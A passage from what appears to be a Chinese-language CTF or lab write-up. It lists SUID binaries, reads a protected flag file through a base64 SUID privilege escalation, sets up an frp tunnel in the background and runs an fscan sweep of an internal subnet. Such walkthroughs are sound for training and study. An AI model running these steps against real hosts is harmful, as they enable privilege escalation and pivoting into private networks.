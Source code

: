 ```bash  
/usr/bin/at  
/usr/bin/chfn  
/usr/bin/gpasswd  
/usr/bin/passwd  
/usr/bin/chage  
/usr/bin/base64  
/usr/bin/umount  
/usr/bin/su  
/usr/bin/chsh  
/usr/bin/sudo  
/usr/bin/crontab  
/usr/bin/newgrp  
/usr/bin/mount  
/usr/bin/pkexec  
/usr/libexec/dbus-1/dbus-daemon-launch-helper  
/usr/lib/polkit-1/polkit-agent-helper-1  
```  
`base64`提权  
```bash  
[redis@centos-web01 tmp]$ base64 &#34;/home/redis/flag/flag01&#34; | base64 --decode  
base64 &#34;/home/redis/flag/flag01&#34; | base64 --decode  
 ██████                    ██              ██  ███████                           ██  
░█░░░░██                  ░██             █░█ ░██░░░░██                         ░██  
░█   ░██  ██████ ██   ██ ██████  █████   █ ░█ ░██   ░██   ██████   ██████       ░██  
░██████  ░░██░░█░██  ░██░░░██░  ██░░░██ ██████░███████   ██░░░░██ ░░░░░░██   ██████  
░█░░░░ ██ ░██ ░ ░██  ░██  ░██  ░███████░░░░░█ ░██░░░██  ░██   ░██  ███████  ██░░░██  
░█    ░██ ░██   ░██  ░██  ░██  ░██░░░░     ░█ ░██  ░░██ ░██   ░██ ██░░░░██ ░██  ░██  
░███████ ░███   ░░██████  ░░██ ░░██████    ░█ ░██   ░░██░░██████ ░░████████░░██████  
░░░░░░░  ░░░     ░░░░░░    ░░   ░░░░░░     ░  ░░     ░░  ░░░░░░   ░░░░░░░░  ░░░░░░   
  
  
flag01: flag{fa2cf8ca-3b47-4ba7-8110-b807f44adc95}  
  
Congratulations! ! !  
Guess where is the second flag?  
```  
## flag02  
`wget`下载`frp`进行代理  
`nohup ./frpc -c frpc.ini &gt;/dev/null 2&gt;&amp;1 &amp;`  
获得内网IP地址，进行`fscan`扫描  
```bash  
cat /etc/hosts  
::1     localhost       localhost.localdomain   localhost6      localhost6.localdomain6  
127.0.0.1       localhost       localhost.localdomain   localhost4      localhost4.localdomain4  
  
172.22.2.7      centos-web01    centos-web01  
```  
`fscan -h 172.22.2.7/24`  
```bash  
[redis@centos-web01 tmp]$ ./fscan -h 172.22.2.7/24  
./fscan -h 172.22.2.7/24  
  
   ___                              _      
  / _ \     ___  ___ _ __ __ _  ___| | __   
 / /_\/____/ __|/ __| &#39;__/ _` |/ __| |/ /  
/ /_\\_____\__ \ (__| | | (_| | (__|   &lt;      
\____/     |___/\___|_|  \__,_|\___|_|\_\     
                     fscan version: 1.8.3  
start infoscan  
trying RunIcmp2  
The current user permissions unable to send icmp packets  
start ping  
(icmp) Target 172.22.2.18     is alive  
```